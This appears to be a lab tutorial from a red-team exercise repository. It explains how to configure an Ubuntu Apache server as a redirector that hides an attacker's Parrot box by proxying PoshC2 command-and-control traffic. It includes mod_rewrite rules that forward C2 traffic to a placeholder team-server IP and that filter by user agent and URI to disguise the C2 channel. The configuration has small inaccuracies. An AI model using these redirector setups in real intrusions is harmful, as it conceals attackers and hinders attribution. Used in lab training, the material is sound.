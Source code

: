 # Setting up proxy 

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running apache. Your current setup is as follows: 

	parrot-OS <> Victim VM

What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

	Parrot <> Ubuntu <> Victim VM 

Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Configureing Apache on Ubuntu

Setting up your Ubuntu server should be fairly similar to how you set up your Parrot VM considering they are both linux based devices. 

Once your IPs are set and your Ubuntu server can route two both your Parrot and your Victim machine, lets set up apache.

```bash 
service apache status 
```

Depending on your setup apache/apache2 might be inactive(dead) by default. To start it we will run the following

```bash 
sudo service apache/apache2 start
```

You can verify by running the same status command 

```bash 
service apache status 
```
> **NOTE:** If you ever have issues starting your apache server to read the error codes. You could run into issues depending on the services you might already have running if they are using ports or services needed for apache.
  
Now if you open a browser of your choice in your Ubuntu server or attack box and browse to your Ubuntus IP you should be met with an apache2 default page describing how to configure your new apache server, read up because I dont want to retype all that. 

Apache configuring tree: 

	/etc/apache2/
	|-- apache2.conf
	|       `--  ports.conf
	|-- mods-enabled
	|       |-- *.load
	|       `-- *.conf
	|-- conf-enabled
	|       `-- *.conf
	|-- sites-enabled
	|       `-- *.conf

Now if you want to be a kool kid like Duck and change your web page to idk say a picture of a duck, we have to navigate to our web root at /var/www/html and change the content inside of our index.html file. We also have to get our duck.jpg file and drop it in are web root. 

```html
<!DOCTYPE html>
<html>
<body>

<h1>Its a Duck</h1>
<img src="duck.jpg" alt="W3Schools.com" width="104" height="142">

</body>
</html>
```

# Configure Proxy 

Now lets move to configuring our proxy for our C2 coms.

First we will navigate to /etc/apache2/site-enabled and view our `000-default.conf`, this is where we configure our setting for our currently hosted sites. Inside will looking something like this:

```apache 
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

What we want to add is an apache module called `mod_proxy`, we can do that with 2 new lines. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
Now that we have `mod_rewite` enabled we want to use the rewrite rules to create our filters. 

The first argument is a variable describing a characteristic of the request, the second argument is a regular expression that must match the variable, and a third optional argument is a list of flags that modify how the match is evaluated.

```html 
RewriteRule Pattern Substitution [flag]
```

Lets add our proxy rule to allow our C2 coms through our new proxy. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

	RewriteRule ^(.*)$ http://<ParrotIpHere>$1 [P,R=666]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
> **NOTE:** Make sure you replace `<ParrotIpHere>` with the IP of your parrot box.

With the above rules you should now have a proxy setup to push your C2 coms through the Ubuntu server. Keep in mind you now have to reconfigure your Poshc2 to have host coms be your Ubuntu server. You can get real fancy with mod_rewrite and add more rules/conditions to allow only C2 coms through and redirect anything else by filtering by your useragent string set in your poshc2 `config.yml` as well as your uri request for files being hosted, example code bellow as well as resources links on how to do fancy things below. 

```apache
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```